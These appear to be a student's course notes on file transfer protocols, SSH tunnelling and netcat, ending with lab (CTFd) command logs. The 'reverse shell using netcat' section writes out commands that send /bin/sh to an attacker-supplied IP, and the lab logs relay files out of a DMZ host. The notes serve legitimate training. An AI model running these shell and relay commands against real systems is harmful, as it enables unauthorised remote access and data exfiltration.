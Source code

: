 # data transfer, movement, and redirection
## data transfer
common methods for transferring data are: tftp, ftp(active and passive), sftp, scp
### tftp - trivial file transfer protocol
- rfc 1350 rev2
- udp transport
- extremely small and very simple communication
- no terminal communication ()
- insecure (no authentication or encryption)
- no directory services
- used often for tech such as BOOTP and PXE
### ftp - file transfer protocol
- rfc 959
- tcp transport
- uses multiple tcp connections
- control connection (21)/data connection (20)
- authentication through clear-text sign in (username and password)
- insecure in default configuration
- has directory services
- can be enhanced with ssl/tls(ftps)
- anonymous login
### sftp - secure file transfer protocol
- TCP transport (TCP port 22)
- Uses symmetric and asymmetric encryption
- Adds FTP like services to SSH
- Authentication through sign in (username and password) or with SSH key
- Interactive terminal access
### ftps - file transfer protocol secure
- TCP transport (TCP port 443)
- Adds SSL/TLS encryption to FTP
- Authentication with username/password and/or PKI
- Interactive terminal access
### scp - secure copy protocol
- TCP Transport (TCP port 22)
- Uses symmetric and asymmetric encryption
- Authentication through sign in (username and password) or with SSH key
- Non Interactive
- SYNTAX:   
Download a file from a remote directory to a local directory  
```$ scp student@172.16.82.106:secretstuff.txt /home/student```   
Upload a file to a remote directory from a local directory  
```$ scp secretstuff.txt student@172.16.82.106:/home/student```  
Copy a file from a remote host to a separate remote host  
```$ scp -3 student@172.16.82.106:/home/student/secretstuff.txt student@172.16.82.112:/home/student```

notes:   
scp <user>@<ip>:<file> <destination>  
scp <target><location> (put a "." to put in pwd on your machine)  
scp<source><destination>  
  
- SCP SYNTAX W/ ALTERNATE SSHD
Download a file from a remote directory to a local directory  
```$ scp -P 1111 student@172.16.82.106:secretstuff.txt /home/student```  
Upload a file to a remote directory from a local directory    
```$ scp -P 1111 secretstuff.txt student@172.16.82.106:/home/student```     
SCP SYNTAX THROUGH A TUNNEL  
```ssh student@172.16.82.106 -L 1111:localhost:22 -NT```  
Download a file from a remote directory to a local directory  
```$ scp -P 1111 student@localhost:secretstuff.txt /home/student```  
Upload a file to a remote directory from a local directory  
```$ scp -P 1111 secretstuff.txt student@localhost:/home/student```  
  
## traffic redirection

notes:  
netcat used to banner grab to see what is really running on a port in case not the usual service is assigned to that port  
```nc 172.16.1.15 22```  

### netcat
NETCAT is the "swiss army knife" networking utility which reads and writes data across network socket connections using the 
TCP/IP protocol. It is designed to be a reliable "back end" tool that can be used directly or easily driven by other 
programs and scripts.  
Can be used for the following:  
- inbound and outbound connections, TCP/UDP, to or from any ports
- troubleshooting network connections
- sending/receiving data (insecurely)
- port scanning (similar to -sT in Nmap)
### netcat: client to listener file transfer
```
Client (sends file): nc 10.2.0.2 9001 < file.txt  
Listener (receive file): nc -l -p 9001 > newfile.txt  
```
### netcat: listener to client file transfer  
```  
Listener (sends file): nc -l -p 9001 < file.txt  
Client (receive file): nc 10.2.0.2 9001 > newfile.txt  
```  
### netcat relay demos  
on client relay:  
```  
mknod mypipe p  
nc 10.1.0.2 9002 0< mypipe | nc 10.2.0.2 9001 1> mypipe  
```  
on listener2 (sends info):  
```nc -l -p 9002 < infile.txt```  
on listener1 (receives info):  
```nc -l -p 9001 > outfile.txt```  
writes the output to listener1 and listener2 through the named pipe   

notes on netcat relay:    
pc1 nc -lp <port>  
pc3 nc -lp <port>  
pc2 nc <pc1 ip> <port> 0<pipe | nc <pc3><port> 1>pipe  
  
  
### file transfer with /dev/tcp  
on the receiving box:  
```nc -l -p 1111 > file.txt```  
on the sending box:  
```cat file.txt > /dev/tcp/10.2.0.2/1111```  
this method is useful for host that does not have NETCAT available  

### REVERSE SHELL USING NETCAT
When shelled into the remote host using -c :  
```nc -c /bin/sh <your ip> <any unfiltered port>```  
You could even pipe BASH through NETCAT.  
```/bin/sh | nc <your ip> <any unfiltered port>```
Then listen for the shell.  
```nc -l -p <same unfiltered port> -vvv```  
You can also listen using the -e with NETCAT.  
```nc -l -p <any unfiltered port> -e /bin/bash```  

ctfd examples:  
```
student@internet-host-student-18:~$ nc -lvp 5678 > 2steg.jpg  
student@blue-int-dmz-host-1-student-18:~$ nc -lvp 4321 0<pipe | nc 10.50.43.237 5678  1>pipe  
student@internet-host-student-18:~$ steghide extract -sf 2steg.jpg   
```
```
student@internet-host-student-18:~$ nc -lvp 5678 > 4steg.jpg  
student@blue-int-dmz-host-1-student-18:~$ nc 172.16.82.115 9876 0<pipe | nc 10.50.43.237 5678 1>pipe  
student@internet-host-student-18:~$ steghide extract -sf 4steg.jpg   
```

